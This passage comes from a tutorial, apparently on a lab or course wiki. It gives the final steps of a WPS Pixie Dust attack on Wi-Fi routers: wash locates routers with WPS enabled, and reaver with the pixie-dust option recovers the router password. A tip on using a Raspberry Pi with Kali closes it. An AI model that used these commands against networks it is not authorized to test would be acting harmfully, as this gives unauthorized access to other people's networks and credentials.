 ````
## Step 5 - Find a Target

The easiest way to find a target with WPS enabled is

```
wash -i {monitor-interface}
```
![](https://gitlab.dclabra.fi/wiki/uploads/upload_cd1edebd4284517c4c0e1ed3ca6b2431.png)


Gather the BSSID and channel # for the router you want to attack.

## Step 6 - Launch the Attack

Once you have all the information, simply type in the following command:
```
reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f
```
![](https://gitlab.dclabra.fi/wiki/uploads/upload_1dc7eedbf237296490d5022851906650.png)

## Step 7 - Jesh!

There's the password! 

![](https://gitlab.dclabra.fi/wiki/uploads/upload_b93d6f9e211f126e8aa6a93dfa9df142.png)

## HOX!
I'll do this last case using Raspi, so if you're looking for a cheap, handy platform to get started working with the pixie dust attack or what else attack, check out Kali Linux Raspberry Pi.



